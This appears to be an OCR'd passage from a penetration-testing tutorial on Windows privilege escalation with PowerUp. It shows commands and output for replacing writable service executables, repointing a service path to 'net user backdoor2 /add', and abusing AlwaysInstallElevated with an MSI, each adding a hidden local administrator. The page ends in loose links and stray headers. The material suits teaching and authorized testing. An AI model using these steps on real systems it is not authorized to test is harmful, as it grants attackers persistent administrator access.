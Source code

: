 The next up is the vulnerable service executable. This misconfiguration happens when the executable associated with a service has improper permissions, allowing other users to write to the .exe. Since these services run as SYSTEM, if we replace the exe with our own, we can escalate quickly. PowerUp includes a function to easily back up the service .exe and write out a patched C# service to that service location. If it succeeds, it returns True, and returns False if it fails. We can use the -Verbose flag to get some more information:

PS C:\> Write-ServiceEXE -ServiceName CustomSVC -UserName backdoor -Password password123 -Verbose
VERBOSE: Backing up ‘C:\Users\adam\Documents\Visual Studio 2008\Projects\Service\Service\bin\Release\service.exe’ to ‘C:\Users\adam\Documents\Visual Studio
2008\Projects\Service\Service\bin\Release\service.exe.bak’
VERBOSE: Service binary written out to ‘C:\Users\adam\Documents\Visual Studio 2008\Projects\Service\Service\bin\Release\service.exe’
True
This new service binary will create a new user named backdoor, and add them to the local administrators. If we can’t start/stop the service, rebooting the box should do the trick to get the user added. After the user is added, running Restore-ServiceEXE -ServiceName CustomSVC should place the original binary back in its proper place.

Sometimes services themselves are vulnerable- if we can modify a service and start/stop it, we can change the path name to the service exe to be something like “net user backdoor2 /add”. If we start/stop the service and then repeat that process to add the user to the local administrators, we’re golden:

PS C:\> Invoke-ServiceUserAdd -ServiceName CustomAPP -UserName backdoor2 -Password password123 -Verbose
VERBOSE: Service ‘CustomAPP’ original path: ‘C:\Custom\deploy.exe’
VERBOSE: Service ‘CustomAPP’ original state: ‘Stopped’
VERBOSE: Adding user ‘backdoor2′
VERBOSE: Adding user ‘backdoor2′ to group ‘Administrators’
VERBOSE: Restoring original path to service ‘CustomAPP’
VERBOSE: Leaving service ‘CustomAPP’ in stopped state
True
Finally, let’s check out that AlwaysInstallElevated key. This is a key sometimes set by enterprises in an attempt to simply the deployment of installer packages without granting users administrative rights. However, setting this key actually is the exact same as giving users those rights, as writing out a custom .msi installer and running it will give the user elevated privileges:

PS C:\> Write-UserAddMSI
Service binary written out to ‘UserAdd.msi’
True
When we run this .msi, it gives us a gui to add a local admin:

UserADD.msi


#######################################
#Cannot be reproduce everything below #
#######################################

http://ezine.echo.or.id/issue28/005.txt 
http://trwagner1.wordpress.com/2012/01/03/powershell-and-wireshark/
https://www.fishnetsecurity.com/6labs/blog/cryptolocker-prevention-and-remediation-techniques

#############
# SharpPcap #
#############
